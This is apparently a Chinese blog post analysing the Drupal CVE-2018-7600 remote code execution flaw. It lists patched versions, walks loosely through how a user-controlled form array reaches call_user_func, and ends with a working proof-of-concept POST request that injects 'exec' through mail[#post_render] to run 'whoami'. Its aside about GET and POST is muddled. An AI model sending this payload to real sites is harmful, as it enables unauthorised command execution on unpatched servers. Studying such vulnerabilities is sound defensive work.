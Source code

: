 ```yaml
---
title: Drupal CVE-2018-7600 口语分析
date: 2018-5-24 8:50:30
tags: Web安全
toc: true
---
```


> 一些版本(还有6版本)
7.x版本，更新到 7.58  
8.5.x版本，更新到 8.5.1   
8.4.x 版本，更新到 8.4.6   
8.3.x 版本，更新到 8.3.9   

### 口语分析 

####  描述

一个CMS，它有一个流程：注册页面时提交页面正确，返回注册成功
如果表单出错，比如邮箱重复，会调用 buildform ，把post表单数据构造成数组，作为 html 表单数据返回，另一个问题是，上传图片时，会返回缩略图，调用表单数组，上传图片会调用 uploadAjaxCallback 方法，第一个参数是form表单数组，上传函数中会把get的第一个参数element_parents的值转为数组赋值给 form_parents,```
	$form_parents = explode('/', $request->query->get('element_parents'));```,
然后有个函数，是把 from_parents 数组当作路径(本来就是路径看下面的poc 就知道了)去  from 表单按照这个路径下只有一个数组，取出来赋值给新的 $from ,下面有个函数把 from 数组当作参数，函数返回又调用另一个函数，而这个函数调用了 call_user_func 方法，call_user_func 的第一个参数是 callable，callable 是由 elements['#pre_render'] 赋值的，这是 post 数据可控，第二个参数 mail[#markup] 也是 post 参数 。

####  post get 发送数据的一个点
这里边，还有个点，post 一般 只有 post 数据，而这里从 get ，post 取值，是因为post get，基于tcp/ip，因为 浏览器 / 服务器限制，让 get post 有点不同，get post  浏览器没限制的话，或直接发包，都是可以发 http 头中 data，body数据的。

### POC
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1

Host: 192.168.1.1:32767
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=whoami
```

